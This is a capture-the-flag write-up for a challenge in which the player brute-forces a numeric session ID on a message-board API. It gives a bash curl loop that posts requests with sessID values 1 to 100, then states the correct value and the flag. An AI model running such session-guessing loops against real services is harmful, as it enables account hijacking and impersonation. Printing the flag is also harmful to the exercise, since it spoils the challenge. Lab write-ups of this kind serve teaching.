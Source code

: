 # Benjamin The Brute - L11 C06

Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

```txt
💡 Hint: There seems to be a required parameter - "sessID" - requiring a number. There aren't too many users,
   maybe try brute forcing this value. You could do that in Python or you could write a BASH script using CURL.
```

## Step by Step

- Open a Linux terminal
- Run `for i in {1..100}; do curl -X POST -d "userID=24&sessID=$i" https://bondogge.com/createPost; echo ""; done`
`
- This will eventually reach to correct sessID of `78` and spit out the flag

`flag: br1ti5h.bulld0gZ`
